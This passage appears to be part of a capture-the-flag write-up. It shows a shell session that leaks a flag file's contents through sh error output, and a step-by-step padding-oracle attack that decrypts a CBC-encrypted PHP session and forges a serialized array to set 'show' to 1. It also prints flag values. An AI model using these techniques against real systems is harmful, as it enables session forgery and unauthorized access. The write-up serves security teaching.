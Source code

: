     $ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    
    $ echo /usr/local/sbin/* /usr/local/bin/* /usr/sbin/* /usr/bin/* /sbin/* /bin/*
    /usr/local/sbin/* /usr/local/bin/* /usr/sbin/* /usr/bin/* /sbin/* /bin/sh
    
    $ pwd
    /home/web/server
    
    $ cd ../flags
    
    $ pwd
    /home/web/flags
    
    $ echo *
    flag1.txt flag2-99754106633f94d350db34d548d6091a.txt
    
    $ sh flag2-99754106633f94d350db34d548d6091a.txt
    flag2-99754106633f94d350db34d548d6091a.txt: 1: BAMBOOFOX{dfdacda187002cb07922c42389a1aa83}: not found
    ```

### YEAR

Our expected solution didn't work, sorry... But you can still write shellcode to make a HTTP request. There were some clues about the IP address of `neighbor` in `/etc/hosts`.

### Da Ji

1. Through several tests, you might find out that the session was encrypted using CBC mode with 16 bytes block size.
2. Use padding oracle to decrypt the session:
    https://github.com/djosix/padding_oracle.py		
    ```
    a:2:{s:4:"show";b:0;s:4:"name";s:1:"a";}\x08\x08\x08\x08\x08\x08\x08\x08
    ```
    This is a serialized PHP array. It's clear that you need to modify `show` to 1.
3. You can modify your name to fake a serialized PHP array and try to align it to a block with correct padding.
    ```
    [      IV      ]a:2:{s:4:"show";b:0;s:4:"name";s:59:"___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01";}
    |               |               |               |               |               |               |               |
    0               16              32              48              64              80              96              112             128
    ```
    So the name should be `___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01` (the last `\x01` is PKCS#7 padding).
    After sending this string as name, you will recieve the session.
4. Then you just remove 0-47 and 112- of the session. (48-63 will be treated as IV). The decrypted session would be:
    ```
    a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01
    ```
